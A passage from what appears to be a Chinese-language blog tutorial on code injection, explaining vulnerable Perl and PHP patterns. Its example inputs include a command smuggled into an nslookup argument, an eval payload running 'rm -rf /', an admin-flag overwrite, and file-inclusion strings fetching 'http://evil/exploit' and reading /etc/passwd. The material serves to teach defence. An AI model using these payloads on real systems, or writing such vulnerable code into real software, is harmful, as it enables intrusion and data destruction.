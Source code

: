 close($fh);  

}[/perl]


如果用户输入的参数是：


`coolshell.cn%20%3B%20/bin/ls%20-l`


那么，这段perl的程序就成了：



`/path/to/nslookup coolshell.cn ; /bin/ls -l`


我们再来看一段PHP的程序：



```
$myvar = 'somevalue';
$x = $_GET['arg'];
eval('$myvar = ' . $x . ';');
```

“`eval`“的参数将会视同PHP处理，所以额外的命令可被添加。例如：如果”arg”如果被设成”`10; system('rm -rf /')`“，后面的”`system('rm -rf /')`“代码将被运行，这等同在服务器上运行开发者意料外的程序。（关于rm -rf /，你懂的，可参看“[一个空格引发的悲剧](/2011/%E4%B8%80%E4%B8%AA%E7%A9%BA%E6%A0%BC%E5%BC%95%E5%8F%91%E7%9A%84%E6%83%A8%E5%89%A7.md "一个空格引发的惨剧")”）


再来看一个PHP的代码



```
$isadmin= false;
...
...
foreach ($_GET as $key => $value) {
  $$key = $value;
}
```

如果攻击者在查询字符串中给定”isadmin=1″，那$isadmin将会被设为值 “1”，然后攻击值就取得了网站应用的admin权限了。


再来看一个PHP的示例：



```
$action = 'login';
   if (__isset( $_GET['act'] ) )
      $action = $_GET['act'];
   require( $action . '.php' ); 
```

这个代码相当危险，攻击者有可能可以干这些事：


* `/test.php?act=**http://evil/exploit**` – 注入远程机器上有漏洞的文件。
* `/test.php?act=**/home/www/bbs/upload/exploit**` – 从一个已经上载、叫做exploit.php文件运行其代码。
* `/test.php?act=**../../../../etc/passwd%00**` – 让攻击者取得该UNIX系统目录检索下密码文件的内容。一个使用空元字符以解除`.php`扩展名限制，允许访问其他非 .php 结尾文件。 (PHP默认值”magic\_quotes\_gpc = On”可以终止这种攻击)
